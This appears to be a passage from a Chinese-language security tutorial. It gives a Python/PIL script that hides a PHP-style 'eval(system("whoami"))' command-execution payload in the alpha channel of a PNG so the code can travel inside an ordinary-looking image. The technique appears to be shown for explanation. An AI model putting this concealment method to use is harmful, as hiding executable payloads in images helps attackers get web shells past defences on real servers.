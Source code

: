 所以我们这里用 32 位存储的图片。代码如下：

```text
from PIL import Image

payload = 'aseert|eval(\'system("whoami")\')' + ';' * (1200 * 1000)  # 填充脏数据，只为了演示
image = 'logo.png'

img = Image.open(image)
img = img.convert('RGBA')
x, y = img.size

# 确保图片的像素点放得下 payload
assert x * y >= len(payload)

# 填充 payload 到图片像素点的数量
payload = payload + '\x00' * (x * y - len(payload))

for i in range(x):
    for j in range(y):
        color = img.getpixel((i, j))
        new_color = color[:-1] + (ord(payload[i * x + j]), )
        img.putpixel((i, j), new_color)
img.show()
img.save('anioner.png')
```

这个代码即可做到将字符串隐写到图片当中，效果如下：

![](assets/1708941064-2af3972c377db8e93ac15a401a358bdc.jpg)
